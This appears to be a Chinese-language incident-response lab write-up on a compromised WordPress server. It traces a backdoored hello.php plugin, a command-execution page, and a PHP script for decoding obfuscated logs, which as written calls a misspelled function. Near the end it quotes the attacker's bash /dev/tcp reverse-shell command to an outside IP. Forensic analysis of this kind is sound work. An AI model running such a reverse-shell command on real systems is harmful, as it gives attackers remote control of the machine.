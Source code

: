 # 事件响应
## Web Server
### 任务
- 查找并提交存在后门插件的名称与版本号，并指出该后门的功能
- 分析并指出攻击者如何获取到应用管理员权限
- 提交上述攻击所使用的URL以及获取到管理员信息时执行的完整语句（含注释）
- 请阐述攻击者如何在获得管理员权限后，写入Webshell以提升其权限
- 查找攻击者获得写入的Webshell文件绝对路径
- 查看并提交攻击者写入的Webshell内容
- 分析反弹Shell时使用的恶意IP地址和端口
- 分析攻击者在服务器上开启的端口号及其目的
### 调查过程
在webserver中查看历史命令，计划任务，后门用户和端口，进程
存在其他的端口8024
![](attachment/Pasted%20image%2020230220121713.png)
在Web Server查看本机IP后利用同网段主机访问对应的web服务，发现为WordPress的网站，于是在本机去访问插件对应的目录进行调查
`/var/www/html/wp-content/plugins`
发现在 ==hello.php== 中存在后门代码，功能是能够进行sql查询，但是语句经过rot13和base64的加密
![](attachment/Pasted%20image%2020230219141212.png)

版本在文件开头的注释中
![](attachment/Pasted%20image%2020230219141339.png)

在/var/log/apache2 中发现有日志记录，参数名与插件后门一致
![](attachment/Pasted%20image%2020230219145338.png)
在foot-dark.php中又有命令执行相关日志
![](attachment/Pasted%20image%2020230219150410.png)

查看后发现这个页面可以进行命令执行
![](attachment/Pasted%20image%2020230219150548.png)

关于日志中的加密语句，利用php来进行解密会更加合适和快捷
```php
<?php
$file = 'log.txt';
$file_data = file_get_contents($file);
$data_array = explode("\n", $file_data);
foreach($data_array as $sql_str) {
	echo $sql_str;
	$trans = base64_decode(str_rot13(urldecode($sql_str)));
	echo $trans;
	file_put_content('out.txt',$trans.PHP_EOL, FILE_APPEND);
}
?>
```
细看解密后的log后会发现有一行看了user表，执行后效果是这样
![](attachment/Pasted%20image%2020230220121458.png)
获得用户名与密码
同样对日志中的webshell相关的日志url解码分析
![](attachment/Pasted%20image%2020230220140730.png)
反弹shell
`bash -c "bash i >& /dev/tcp/0x1d205d4/12450 0>&1"`
IP:1.210.5.212